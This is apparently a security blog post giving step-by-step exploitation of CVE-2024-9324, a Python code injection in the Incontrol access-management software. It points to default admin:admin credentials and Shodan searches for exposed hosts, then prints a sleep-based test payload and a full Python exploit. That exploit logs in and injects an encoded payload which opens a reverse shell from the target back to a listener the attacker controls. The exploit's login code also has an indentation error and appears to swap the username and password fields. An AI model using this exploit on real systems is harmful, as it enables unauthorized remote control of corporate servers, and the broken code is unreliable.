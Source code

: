 ```yaml
---
layout: post
title: "CVE-2024-9324 Exploitation Chain: Web User to NT AUTHORITY SYSTEM "
description: "Step by step exploitation for the Code Injection vulnerability that I found."
date:   2024-11-06 09:01:35 +0300
image:  '/images/713.jpg'
tags:   [exploitation, cve]
---
```


Hello everyone! Today I will present in detail the exploitation of a Code Injection vulnerability that I recently found in the Incontrol software, version 2.21.57.

#### What is Incontrol?
Incontrol is a software mainly used for access management in companies and is more present in internal networks, although it is possible to find exposed hosts on the internet through tools such as Shodan and Fofa.

### Proof of Concept
To exploit this vulnerability, it is necessary to have a user with permission to generate reports. In addition, the software uses, by default, administrator credentials such as "admin:admin", which makes it easier to identify hosts configured with these default credentials.

![]({{site.baseurl}}/images/image.png)

With a successful login to the application, when navigating through the menu and accessing the "Event Reports" option, it is possible to capture the vulnerable request when trying to generate a PDF report.

![]({{site.baseurl}}/images/image2.png)

![]({{site.baseurl}}/images/image3.png)

Using a payload that executes Python code to perform a 10-second time sleep, we observed that the application responded as expected, returning the response in approximately 11 seconds.

{% highlight py %}
eval(compile('for x in range(1):\n import time\n time.sleep(10)','a','single'))
{% endhighlight %}

![]({{site.baseurl}}/images/image4.png)

![]({{site.baseurl}}/images/image5.png)


### Exploit
To make the exploit easier, I developed an exploit in Python that automates the entire process and allows you to obtain a reverse shell.


{% highlight py %}

#!/usr/bin/python3

import argparse
import requests
import warnings
warnings.filterwarnings("ignore")


proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

def login(target, user, password):
    burp0_url = target + ":4441/v1/auth/"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/json", "Origin": f"{target}:4445", "Referer": f"{target}:4445/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Priority": "u=0", "Te": "trailers", "Connection": "keep-alive"}
    burp0_json={"password": f"{user}", "username": f"{password}"}
    response = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
    # Verifica se a resposta foi bem-sucedida
    if response.status_code == 200:
        # Obtém o token do JSON da resposta
        token = response.json().get("token")
        if token:
        return token
        else:
            print("[X] - Token Extraction Error!")
            return None
    else:
        print(f"[X] - Login Failed: {response.status_code}")
        return None
        
def exploit(target, token, lhost, lport):
    burp0_url = target + f":4441/v1/evento/relatorio?page=1&limit=10000&fields=eval(compile('for%20x%20in%20range(1)%3a%5cn%20import%20os%2csocket%2csubprocess%2cthreading%5cn%20def%20s2p(s%2c%20p)%3a%5cn%20%20%20%20while%20True%3a%5cn%20%20%20%20%20%20%20%20data%20%3d%20s.recv(1024)%5cn%20%20%20%20%20%20%20%20if%20len(data)%20%3e%200%3a%5cn%20%20%20%20%20%20%20%20%20%20%20%20p.stdin.write(data)%5cn%20%20%20%20%20%20%20%20%20%20%20%20p.stdin.flush()%5cn%20def%20p2s(s%2c%20p)%3a%5cn%20%20%20%20while%20True%3a%5cn%20%20%20%20%20%20%20%20s.send(p.stdout.read(1))%5cn%20s%20%3d%20socket.socket(socket.AF_INET%2c%20socket.SOCK_STREAM)%5cn%20s.connect((%22{lhost}%22%2c{lport}))%5cn%20p%20%3d%20subprocess.Popen(%5b%22cmd%22%5d%2c%20stdout%3dsubprocess.PIPE%2c%20stderr%3dsubprocess.STDOUT%2c%20stdin%3dsubprocess.PIPE)%5cn%20s2p_thread%20%3d%20threading.Thread(target%3ds2p%2c%20args%3d%5bs%2c%20p%5d)%5cn%20s2p_thread.daemon%20%3d%20True%5cn%20s2p_thread.start()%5cn%20p2s_thread%20%3d%20threading.Thread(target%3dp2s%2c%20args%3d%5bs%2c%20p%5d)%5cn%20p2s_thread.daemon%20%3d%20True%5cn%20p2s_thread.start()%5cn%20try%3a%5cn%20%20%20%20p.wait()%5cn%20except%20KeyboardInterrupt%3a%5cn%20%20%20%20s.close()','a','single'))"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br", "Authorization": f"JWT {token}", "Origin": "https://localhost:4445", "Referer": "https://localhost:4445/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Te": "trailers", "Connection": "keep-alive"}
    response = requests.get(burp0_url, headers=burp0_headers, verify=False)
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-lh', '--lhost', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--lport', help='Listening port for reverse shell', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-p', '--password', help='Password value to set', required=True)
    args = parser.parse_args()
    print("[!] Running the exploit for CVE-2024-9324 [!]")
    print("[!] You need to run nc -nlvp manually [!]")
    print("[!] Usage example: python3 exploit.py --target https://TARGET -lh LHOST -lp 8080 -u admin -p admin [!]")

    print("[+] Logging in... [+]")
    token = login(args.target, args.username, args.password)
    
    print("[+] Sending shell! [+]")

    exploit(args.target, token, args.lhost, args.lport)

if __name__ == '__main__':
    main()
{% endhighlight %}

![]({{site.baseurl}}/images/image6.png)


![]({{site.baseurl}}/images/image7.png)

That's it for today guys, I hope you enjoyed this Python Code Injection vulnerability and don't forget, keep hacking.